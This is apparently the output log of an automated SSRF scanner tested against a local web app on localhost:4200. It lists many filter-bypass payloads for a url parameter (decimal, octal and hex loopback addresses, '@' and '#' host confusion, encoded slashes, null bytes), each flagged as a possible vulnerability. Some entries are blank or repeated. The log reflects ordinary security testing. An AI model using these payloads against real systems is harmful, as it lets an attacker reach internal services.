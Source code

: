  ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=2130706433` _(POST)_
- Testing: `http://localhost:4200/?url=017700000001`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=017700000001` _(POST)_
- Testing: `http://localhost:4200/?url=0x7f000001`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0x7f000001` _(POST)_
- Testing: `http://localhost:4200/?url=google.com%40127.0.0.1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=google.com%40127.0.0.1` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%23google.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%23google.com` _(POST)_
- Testing: `http://localhost:4200/?url=google.com.127.0.0.1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=google.com.127.0.0.1` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%2Fgoogle.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%2Fgoogle.com` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%2F%3Fd%3Dgoogle.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%2F%3Fd%3Dgoogle.com` _(POST)_
- Testing: `http://localhost:4200/?url=`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=` _(POST)_
- Testing: `http://localhost:4200/?url=google.com%40127.0.0.1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=google.com%40127.0.0.1` _(POST)_
- Testing: `http://localhost:4200/?url=`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%23google.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%23google.com` _(POST)_
- Testing: `http://localhost:4200/?url=`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=` _(POST)_
- Testing: `http://localhost:4200/?url=google.com.127.0.0.1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=google.com.127.0.0.1` _(POST)_
- Testing: `http://localhost:4200/?url=`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%2Fgoogle.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%2Fgoogle.com` _(POST)_
- Testing: `http://localhost:4200/?url=`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%2F%3Fd%3Dgoogle.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%2F%3Fd%3Dgoogle.com` _(POST)_
- Testing: `http://localhost:4200/?url=google.com%40localhost`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=google.com%40localhost` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%23google.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%23google.com` _(POST)_
- Testing: `http://localhost:4200/?url=google.com.localhost`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=google.com.localhost` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%2Fgoogle.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%2Fgoogle.com` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%2F%3Fd%3Dgoogle.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%2F%3Fd%3Dgoogle.com` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%2500google.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%2500google.com` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%3Fgoogle.com`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%3Fgoogle.com` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%2F%2F%2Fgoogle.com`